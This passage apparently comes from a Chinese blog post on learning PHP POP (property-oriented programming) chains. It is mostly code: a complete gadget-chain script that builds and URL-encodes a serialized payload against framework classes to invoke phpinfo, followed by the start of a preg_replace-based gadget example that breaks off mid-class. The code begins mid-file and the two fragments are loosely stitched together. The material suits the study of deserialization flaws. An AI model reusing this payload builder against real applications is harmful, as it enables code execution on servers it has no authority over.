 ```php
    class Mongo {
        public $events;
        public function __construct($events)
        {
            $this->events=$events;
        }
    }
}

namespace DB\Jig{
    class Mapper extends \DB\Cursor {
        protected $legacy=0;
        protected $db;
        protected $file;
        public function __construct($db,$file){
            $this->db=$db;
            $this->file=$file;
        }
    }
}
namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected $props=["read"=>"phpinfo"];
    }
}

namespace{
    $SQLMapper=new DB\SQL\Mapper();
//    echo serialize($SQLMapper),"\n";
    $JigMapper=new DB\Jig\Mapper($SQLMapper,INFO_ALL );
//    $MongoMapper  = new CLI\WS();
    $DBMongo=new DB\Mongo(array('disconnect'=>array($JigMapper,"update")));
    $Agent=new CLI\Agent($DBMongo);
    $WS=new CLI\WS();
    echo urlencode(serialize(array($WS,$Agent)));
}
```



[![返回主页](assets/logo.gif)](https://www.cnblogs.com/iamstudy/)

### [l3m0n](https://www.cnblogs.com/iamstudy/) pop链学习

```php
<?php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
  function filter($data) {
    return preg_replace($this->matchPattern, $this->replacement, $data);
  }
};
class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
```